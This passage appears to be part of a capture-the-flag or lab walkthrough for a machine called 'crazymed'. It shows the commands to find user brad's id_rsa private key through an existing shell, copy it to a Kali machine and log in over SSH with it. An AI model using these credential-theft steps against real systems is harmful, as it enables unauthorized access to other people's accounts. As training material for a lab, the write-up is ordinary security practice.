


5.1 Getting private key
1. Run the shell you got the following commands to find the “id_rsa” file.
brad@crazymed:~$ ls -al
brad@crazymed:~$ cd .ssh
brad@crazymed:~/.ssh$ ls -al
Output:

2. Copy the “id_rsa” content and paste it on your Kali Machine in a file with the same name and change the permissions to 600.
$ echo "<id_rsa content" > id_rsa
$ chmod 600 id_rsa
3. Connect from your Kali Machine via SSH with the file “Id_rsa”.
$ ssh -i id_rsa brad@192.168.12.75
Output:
